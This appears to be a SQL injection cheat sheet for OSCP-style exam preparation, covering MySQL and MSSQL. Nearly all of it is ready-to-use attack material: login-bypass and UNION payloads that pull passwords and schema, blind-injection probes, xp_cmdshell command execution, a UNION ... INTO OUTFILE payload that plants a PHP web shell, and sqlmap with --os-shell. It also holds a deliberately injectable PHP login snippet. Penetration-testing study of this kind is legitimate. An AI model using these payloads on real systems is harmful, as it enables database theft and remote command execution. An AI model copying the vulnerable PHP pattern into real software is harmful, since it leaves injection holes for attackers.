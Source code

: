 # SQL Injection Reference Guide

## SQL Basics

### Common SQL Commands
```sql
SELECT * FROM users WHERE user_name='leon';
SELECT version();               -- Shows DB version
SELECT system_user();           -- Current SQL user
SHOW DATABASES;                 -- List databases
```
Default port of MySQL: `3306`

### MySQL Login Example
```bash
mysql -u root -p'root' -h 192.168.50.16 -P 3306
```

### PHP Vulnerable Example
```php
<?php
$uname = $_POST['uname'];
$passwd = $_POST['password'];
$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";
$result = mysqli_query($con, $sql_query);
?>
```

## Manual SQL Injection

### Error-Based
```sql
'offsec' OR 1=1 --
' OR 1=1 IN (SELECT @@version) --
' OR 1=1 IN (SELECT password FROM users) --
' OR 1=1 IN (SELECT password FROM users WHERE username='admin') --
```

### UNION-Based
```sql
' ORDER BY 1 --
%' UNION SELECT 'a1', 'a2', 'a3', NULL, NULL --
%' UNION SELECT database(), user(), @@version, NULL, NULL --
' UNION SELECT NULL, table_name, column_name, table_schema, NULL FROM information_schema.columns WHERE table_schema=database() --
```

### Blind SQL Injection

#### Boolean-Based
```http
http://<target>/blindsqli.php?user=offsec' AND 1=1 --
```

#### Time-Based
```http
http://<target>/blindsqli.php?user=offsec' AND IF(1=1, SLEEP(3), 'false') --
```

## Code Execution

### MSSQL with xp_cmdshell
```sql
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXECUTE xp_cmdshell 'whoami';
```

### MySQL File Write Exploit
```sql
' UNION SELECT "<?php system($_GET['cmd']); ?>", NULL, NULL, NULL, NULL INTO OUTFILE "/var/www/html/tmp/webshell.php" --
```
Access via: `webshell.php?cmd=<command>`

## sqlmap Examples

### Basic Usage
```bash
sqlmap -u "http://<target>?user=1" -p user
sqlmap -u "http://<target>?user=1" -p user --dump
```

### With POST Request
```bash
sqlmap -r post.txt -p item --os-shell --web-root "/var/www/html/tmp"
```

---

## Exam-Useful Payloads

### Classic Login Bypass
```sql
' OR 1=1 --
```

### Table & Column Enumeration
```sql
' UNION SELECT NULL, table_name, column_name, table_schema, NULL FROM information_schema.columns WHERE table_schema=database() --
```

### DB Information
```sql
' UNION SELECT database(), user(), @@version, NULL, NULL --
```

### Web Shell (MySQL)
```sql
' UNION SELECT "<?php system($_GET['cmd']); ?>", NULL, NULL, NULL, NULL INTO OUTFILE "/var/www/html/tmp/webshell.php" --
```

### Boolean Test (Blind)
```http
http://<target>?user=offsec' AND 1=1 --
```

### Time Delay (Blind)
```http
http://<target>?user=offsec' AND IF(1=1, SLEEP(3), 'false') --
```

---

Prepared for OSCP-style manual SQL injection attacks.
